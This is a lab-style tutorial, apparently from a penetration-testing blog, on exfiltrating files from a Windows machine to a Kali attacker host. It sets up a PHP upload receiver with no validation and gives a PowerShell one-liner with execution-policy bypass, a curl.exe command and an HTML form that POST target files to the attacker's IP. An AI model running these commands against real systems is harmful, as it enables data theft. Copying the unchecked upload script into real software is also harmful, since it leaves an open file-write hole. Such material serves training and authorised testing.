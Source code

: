 ## Kali Box

First, create a PHP script `upload.php` which will handle the uploading part.

<?php  
$target_dir = "uploads/";  
$target_file = $target_dir . basename($_FILES["targetfile"]["name"]);  
move_uploaded_file($_FILES["targetfile"]["tmp_name"], $target_file)  
?>

And for the web server, use `Apache2` which comes with Kali by default.

**# Running Apache2 Server**  
service apache2 start

Then, put the `upload.php` script under the following web directory.

/var/www/html/web/       **# I added 'web' directory for demo purpose**

As you notice it from the `upload.php` script, we also need to create a directory called `uploads` in order to collect uploaded files. Create it under the `/var/www/html/web` directory and configure it with proper ownership as well as write permissions.

**# Creating 'uploads' Directory**  
mkdir /var/www/html/web/uploads**# Configuring Directory Ownership with 'www-data' User**  
chown www-data:www-data /var/www/html/web/uploads**# Configuring Directory with Write Permissions**  
chmod 766 /var/www/html/web/uploads

Once all done, you should have set up your web directory similar to below:

![](https://miro.medium.com/max/30/1*deVtUdbhi73WPac8Tt_kvw.png?q=20)

![](https://miro.medium.com/max/484/1*deVtUdbhi73WPac8Tt_kvw.png)

## Windows Box

It’s simple from the Window box. We can use a sexy PowerShell one-liner using `Invoke-RestMethod` to get the job done.

**# PowerShell**  
powershell -nop -exec bypass Invoke-RestMethod -Uri [http://<_Your Kali IP_>/web/upload.php](http://10.10.14.29/php/upload.php) -Method Post -Infile 'c:\<_Path to the Target File_>'**# Warning: If the 'Invoke' command is globally restricted, this would NOT work.**

Or

If the box is Windows 10 build 17063 or later, we can use even sexier one-liner using `curl.exe`. (Finally, Microsoft began adding “hacker” tools to Windows :P)

**# Curl**  
curl -H Content-Type:"multipart/form-data" --form targetfile=@"c:\<_Path to the Target File_>" -X POST -v [http://<_Your Kali IP_>/web/upload.php](http://10.10.14.29/php/upload.php)

Or

If it’s an old Windows box without PowerShell and/or `curl.exe`, we can create the following `html` file to upload a file via browser. (Locate this `html` file in our web root)

**# Upload.html**
```html
<html>  
<head></head>  
<body>  
<form action="[http://<Your Kali IP>/web/upload.php](http://192.168.102.74/upload.php)" method="POST" enctype="multipart/form-data">  
<br><br>  
Choose A File:<br>  
<input type="file" name="targetfile"><br>  
<input type="submit" name="submit" value="upload">  
</form>  
</body>  
</html>
```